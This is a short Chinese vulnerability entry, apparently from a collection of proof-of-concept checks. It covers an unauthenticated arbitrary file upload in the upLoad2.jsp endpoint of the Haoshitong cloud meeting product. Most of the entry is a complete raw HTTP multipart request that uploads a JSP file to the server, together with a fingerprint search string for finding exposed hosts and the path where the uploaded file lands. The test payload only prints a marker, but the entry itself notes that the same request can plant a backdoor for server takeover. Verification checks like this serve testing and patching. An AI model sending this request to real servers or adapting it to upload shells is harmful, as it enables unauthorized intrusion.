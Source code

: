 ﻿# 好视通云会议 upLoad2.jsp 任意文件上传漏洞

> 更新时间：2023-12-07

> 漏洞编号：

> 漏洞说明： 好视通云会议/fm/systemConfig/upLoad2.jsp接口处存在任意文件上传漏洞，未经身份认证的攻击者可以通过此漏洞上传恶意后门文件，最终可获取服务器权限。

> 漏洞特征：app:"好视通-云会议"

> 验证脚本：HTTP

```
POST /fm/systemConfig/upLoad2.jsp HTTP/1.1
Content-Type: multipart/form-data; boundary=1515df1sdfdsfddfs
Accept-Encoding: gzip
 
--1515df1sdfdsfddfs
Content-Disposition: form-data; name="file"; filename="dudesuite.jsp"
Content-Type: application/octet-stream
 
<% out.print("dudesuite"); %>
--1515df1sdfdsfddfs--
```

> 响应代码特征：302

> 响应内容特征：

> 上传文件定位：/fm/upload/dudesuite.jsp

> 验证文件来源：好视通云会议 upLoad2.jsp 任意文件上传漏洞.poc
